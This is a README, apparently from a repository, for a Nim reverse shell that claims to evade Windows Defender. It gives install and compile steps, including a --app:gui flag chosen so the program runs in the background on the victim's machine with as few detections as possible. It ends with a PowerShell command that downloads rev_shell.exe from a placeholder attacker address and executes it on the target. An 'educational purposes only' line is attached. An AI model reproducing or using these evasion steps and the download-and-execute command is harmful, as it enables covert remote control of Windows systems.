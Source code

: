 # Nim Reverse Shell

A simple reverse shell is written in Nim that bypasses Windows Defender detection (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)
- Windows 11 (10.0.22631)

## Installation

Installing MingW64:

```bash
apt install mingw-w64
```

Installing Nim:

```bash
apt install nim
```

## Compilation

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). I strongly recommend following the below example for minimum detections as possible.

```bash
nim c -d:mingw --app:gui rev_shell.nim
```

## On Windows(Target Machine)

windows powershell

```powershell
Invoke-WebRequest -Uri http://<ip_address>:<port>/rev_shell.exe -OutFile rev_shell.exe ; ./rev_shell.exe
```
